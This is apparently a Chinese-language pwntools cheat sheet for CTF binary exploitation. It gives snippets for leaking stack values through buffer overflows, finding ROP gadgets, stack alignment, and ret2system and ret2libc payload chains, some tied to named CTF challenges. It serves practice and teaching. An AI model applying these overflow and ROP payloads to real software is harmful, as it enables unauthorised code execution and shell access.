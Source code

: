 ## 关闭 BytesWarning

```python
import warnings
warnings.filterwarnings("ignore", category=BytesWarning)
```

## 各函数的细节区别 scanf 用 sendline, read 用 send

| 函数名 | pwn 工具 | 输出的区别     |
| ------ | -------- | -------------- |
| scanf  | sendline |                |
| read   | send     |                |
| puts   |          | 发送后追加`\n` |
| printf |          | 不追加`\n`     |

## snippets

```py
elf = ELF('./pwn', checksec=False)
print(hex(elf.bss(0x500))) # bss段+0x500的地址

libc.sym['system']
libc.sym.system
```
## 溢出读取 ebp 值

sendline 发送时\n 会占一个字符 0x4 大小发 `sendline 'a'*4` 会发 5 个字符引发问题。

举例

```c
char s[40]; // [ebp-28h]
read(0, s, 0x30u);


// 要输出 ebp 需要 0x20 个字节这时只要覆盖最后的 00 即可输出 ebp，read时用send,不用sendline
// 如果是scanf要用 sendline
payload1 = b'A' * (0x27) + b'B'
p.send(payload1)  # not sendline
p.recvuntil("B")
original_ebp = u32(p.recv(4))
```

### 填充指定大小

```py
'a'.ljust(268, ' ')
```

## 使用默认的 libc

```
elf = ELF("./canary")
libc = elf.libc
```

## find leave asm

```python
leave_ret = elf.search(asm('leave')).__next__()

pop_rdi = ROP(elf).find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = ROP(elf).find_gadget(['pop rsi'])[0]
leave_ret = ROP(elf).find_gadget(['leave', 'ret'])[0]
print(hex(pop_rdi))
```

## snippets

```python
ss = lambda data: s.send(str(data))
sa = lambda delim, data: s.sendafter(str(delim), str(data))
sl = lambda data: s.sendline(data)
sls = lambda data: s.sendline(str(data))
sla = lambda delim, data: s.sendlineafter(str(delim), str(data))
r = lambda num: s.recv(num)
ru = lambda delims, drop=True: s.recvuntil(delims, drop)
itr = lambda: s.interactive()
uu32 = lambda data: u32(data.ljust(4, b'\x00'))
uu64 = lambda data: u64(data.ljust(8, b'\x00'))
leak = lambda name, addr: log.success('{} = {:#x}'.format(name, addr))
l64 = lambda: u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))
l32 = lambda: u32(p.recvuntil("\xf7")[-4:].ljust(4, b"\x00"))

bss_addr = elf.bss()
```

# Stack

## 栈对齐

```python
rop = ROP(elf)
rop.raw(b'a' * (64 + 8)) # 填充 64 + fake_rbp(8) 个字节的数据到缓冲区中
rop.raw(flat(ret)) # 方式1. 加个ret即可
rop.call(system, [bin_sh]) # 栈对齐

# 方式2 不加ret 加参数 rop.call(system, [bin_sh, '0']) # 栈对齐

# payload = flat(junk, ret, pop_rdi, binsh, system, 0) # junk后面加上 ret 来平栈
```

## ret2system

```sh
# ciscn_2019_es_2
elf.plt['system'] + p32(0) + binsh_addr  # 是地址不是 "/bin/sh" 字符
payload =p32(0) + p32(elf.plt['system']) + p32(0) + p32(stdin_addr+0x10) + b'/bin/sh\x00'
payload = payload.ljust(0x28, '\x00')
```

# rop

见 pwn_01_stack_03_ret2libc_x64_00_ctfhub_bypwntool_rop.py

```sh
rop = ROP('./ret2libc') # x64
rop.raw(b'A' * (144 + 8))  # 填充144 + fake_rbp(8) 个字节的数据到缓冲区中
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
# rop.call 会自动 pop rdi, ret来传入参数
rop.call(puts_plt, [puts_got]) # puts_plt(puts_got, arg2, arg3, arg4, ...)
rop.call('main')  # 自动构建下一步的ret调用main函数，使程序重新运行
p.sendline(rop.chain())

# 再发送时要重新构建 rop
rop = ROP('./ret2libc')
rop.raw(b'A' * (144 + 8))
rop.call(system_addr, [binsh_addr])
```
